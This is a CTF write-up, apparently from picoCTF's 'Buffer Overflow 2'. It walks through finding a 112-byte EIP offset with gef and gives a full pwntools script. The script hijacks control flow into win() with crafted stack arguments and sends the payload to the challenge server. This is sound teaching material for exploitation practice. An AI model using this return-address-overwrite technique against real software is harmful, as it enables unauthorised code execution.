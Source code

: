 ```yaml
---
title: "Buffer Overflow 2"
date: 2025-10-19T22:41:04+05:30
draft: False
---
```



This challenge was a classic example of how control flow can be hijacked when proper bounds checking is absent. Let’s break down the approach I used to solve it.


## Initial Analysis

After making the binary executable and reviewing the source, I found that it contained three key functions:

-   **main()** – program entry point.
    
-   **vuln()** – the vulnerable function that relies on unsafe input.
    
-   **win()** – the interesting one. It checks if two arguments equal `0xCAFEF00D` and `0xF00DF00D`. If both match, the flag is printed.
    
Running the binary we get something like this :
```
Please enter your string:
AAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAA
```
The binary basically echo-ed if anything was prompted in. Clearly, the goal was to redirect execution into `win()` while supplying the correct arguments. 



## Finding the Offset

The binary was vulnerable to a buffer overflow. To determine the exact overwrite point for EIP, I used GDB with **gef’s** pattern tools:

```
pattern create 200
pattern offset $eip

```

This revealed that the offset to EIP was **112 bytes**. That means after 112 characters, I have direct control over the instruction pointer.


## Identifying Useful Addresses

To craft the exploit, I needed the addresses of functions. Running `info functions` in GDB gave me what I needed.

The address of **main**:

```
0x08049372

```

The address of **win** could be extracted programmatically in Python with pwntools:

```python
f = ELF("./vuln")
f.symbols["win"]

```


## Why Jump to Main First?

At first glance, you might think it’s enough to overwrite EIP with the address of `win()`. But there’s a subtle detail here.

When a function returns, the CPU expects a return address to be on the stack. If you don’t provide a valid one, the program crashes right after executing `win()`. That’s why I placed the address of **main** immediately after **win**.

This way, when `win()` executes its own `ret`, it gracefully jumps back to main, keeping the program flow intact.


## Stack Layout with Arguments

Since `win()` expects two arguments, they need to be supplied on the stack right after the fake return address. On 32-bit x86, arguments are pushed onto the stack in order. So the final stack layout becomes:

```
[ return address -> win() ]
[ return address for win -> main() ]
[ argument 1 -> 0xCAFEF00D ]
[ argument 2 -> 0xF00DF00D ]

```

This ensures that when execution jumps into `win()`, the function receives exactly what it expects.


## Crafting the Payload

Here’s the payload broken down in Python:

```python
import pwn

f = pwn.ELF("./vuln")

jump_eip = pwn.p32(f.symbols["win"])     # overwrite EIP with win()
return_eip = pwn.p32(f.symbols["main"])  # fake return address
cafefood = pwn.p32(0xCAFEF00D)           # first argument
foodfood = pwn.p32(0xF00DF00D)           # second argument

payload = b''.join([
    b"A" * 112, 
    jump_eip, 
    return_eip, 
    cafefood, 
    foodfood
]) + b"\n"

with open("payload", "wb") as fl:
    fl.write(payload)

host = "saturn.picoctf.net"
port = 58846
conn = pwn.remote(host, port)
conn.sendline(payload)
print(conn.recvall().decode("latin-1"))
conn.close()

```


Running this exploit against the remote service redirected control to `win()`, satisfied the argument checks, and successfully revealed the flag. By combining offset calculation, function address lookup, and stack crafting, we were able to hijack control flow and cleanly call `win()` with the correct parameters.


